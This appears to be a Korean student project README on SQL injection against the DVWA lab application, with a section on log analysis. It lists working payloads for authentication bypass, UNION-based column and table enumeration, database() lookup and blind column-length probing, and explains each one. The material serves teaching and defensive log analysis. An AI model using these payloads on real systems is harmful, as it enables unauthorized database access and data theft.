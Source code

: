 ## SQL Injection 구현 및 log 분석
SQL injection: 주민서, 이종학

log 분석: 김현서, 허남정, 오성택

---
### 1. 조건문을 이용한 SQL Injection
이 유형의 payload는 WHERE절의 조건을 항상 참으로 만들어 조건을 우회하는 방법 입니다.
- ' OR 1=1 #
- ' OR TRUE #
- ' OR '1'='1' #
- ' OR '1'='1' LIMIT 1 #
- ' OR TRUE LIMIT 1 #
- ' OR 1=1 LIMIT 5 #

이런 payload는 다음과 같은 쿼리가 있다고 가정했을 때 사용합니다.

SELECT * FROM table WHERE id = 'sql_injection' AND pw = 'sql_injection’

WHERE절의 조건이 항상 참이 되므로 모든 행이 반환됩니다.

---
### 2. UNION SELECT
UNION은 두 개 이상의 SELECT문의 결과를 하나의 결과로 만들어줍니다. 이때 각 SELECT문은 같은 수의 컬럼을 가져야 하며, 각 열의 데이터 타입이 일치해야 합니다. 이러한 특성을 이용해 데이터베이스의 구조나 정보를 알아낼 수 있습니다. 사용된 payload를 확인해보면 컬럼의 길이, 테이블 이름, 컬럼의 데이터를 알아내는데 사용되었습니다.
- ' UNION SELECT 1 #
- ' UNION SELECT 1, 2 #
- ' UNION SELECT 1, 2, 3 #
- ' UNION SELECT 1, table_name FROM information_schema.tables #
- ' UNION SELECT table_name,2 FROM information_schema.tables #
- ' UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema='dvwa' #
- ' UNION SELECT table_name, 2 FROM information_schema.tables WHERE table_schema='dvwa' #

위 예시의 쿼리문들을 이용해 컬럼의 개수 및 데이터베이스의 정보를 알아내는데 사용할 수 있습니다.


---
### 3. DB 정보 확인
database() 함수는 MySQL에서 현재 연결된 데이터베이스의 이름을 반환합니다. 이 함수를 사용해 현재 사용중인 데이터베이스의 이름을 알아내 데이터베이스의 구조를 파악해 SQL 인젝션 공격을 계획할 수 있게 됩니다.
- ' UNION SELECT 1,database() #`
- ' UNION SELECT database(), 2 #`

---
### 4. 컬럼 길이 확인
특정 테이블의 컬럼 이름 길이를 알아내기 위한 payload입니다. information_schema.columns과 LENGTH() 함수를 이용해 특정 테이블의 컬럼 이름의 길이를 추측해 데이터베이스 구조를 탐색합니다.
- '1' AND (SELECT 1 FROM information_schema.columns WHERE table_schema='dvwa' AND table_name='users' AND LENGTH(column_name)=1) #`
- '1' AND (SELECT 1 FROM information_schema.columns WHERE table_schema='dvwa' AND table_name='users' AND LENGTH(column_name)=2) #`
- '1' AND (SELECT 1 FROM information_schema.columns WHERE table_schema='dvwa' AND table_name='users' AND LENGTH(column_name)=3) #`

위 쿼리를 보면 이름의 길이를 순차적으로 증가시키며, 데이터베이스 구조를 탐색하려는 의도임을 알 수 있습니다.

---
### 5. 컬럼 이름 확인
이 페이로드는 information_schema를 이용해 특정 테이블의 컬럼 이름을 추출합니다. LIMIT 절을 사용해 특정 위치의 컬럼 이름을 선택합니다.
- ' UNION SELECT 1,column_name from information_schema.columns WHERE table_name='guestbook' LIMIT 2,1 #
- ' UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='guestbook' LIMIT 2,1 #
- ' UNION select 1,column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' and table_schema='dvwa' #



